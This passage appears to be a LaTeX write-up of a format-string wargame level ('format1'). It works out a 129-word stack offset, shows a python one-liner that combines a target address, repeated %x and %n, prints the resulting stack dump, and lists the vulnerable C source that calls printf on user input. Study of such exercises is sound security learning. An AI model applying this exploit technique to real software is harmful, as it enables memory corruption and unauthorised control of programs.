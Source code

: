 Thus, we can deduce that the location of the pointer is at `0xbffffc84`. The pointer
starts at `0xbffffe8a`, that is 518bytes away. This computes to 129 pointer shifts
before writing to our target location.

\begin{lstlisting}[language=bash]
./format1 $(python -c "print '\x38\x96\x04\x08' + '%x.'*129 + '%n'")
8804960c.bffffb48.8048469.b7fd8304.b7fd7ff4.bffffb48.8048435.bffffd18.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbc8.b7eadc76.2.bffffbf4.bffffc00.b7fe1848.bffffbb0.ffffffff.b7ffeff4.804824d.1.bffffbb0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbc8.52a9541a.78e7820a.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbf4.8048450.8048440.b7ff1040.bffffbec.b7fff8f8.2.bffffd0e.bffffd18.0.bffffea2.bffffead.bffffebd.bffffedf.bffffef2.bffffefc.bfffff10.bfffff52.bfffff69.bfffff7a.bfffff82.bfffff8d.bfffff9a.bfffffd0.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.78bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffceb.1f.bffffff2.f.bffffcfb.0.0.0.0.d2000000.fa1036db.f1b2d6af.5dbc36f0.696824ef.363836.0.0.0.2f2e0000.6d726f66.317461.you have modified the target :)
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
    #include <stdlib.h>
    #include <unistd.h>
    #include <stdio.h>
    #include <string.h>
    
    int target;
    
    void vuln(char *string)
    {
      printf(string);
      
      if(target) {
          printf("you have modified the target :)\n");
      }
    }
    
    int main(int argc, char **argv)
    {
      vuln(argv[1]);
    }
\end{lstlisting}
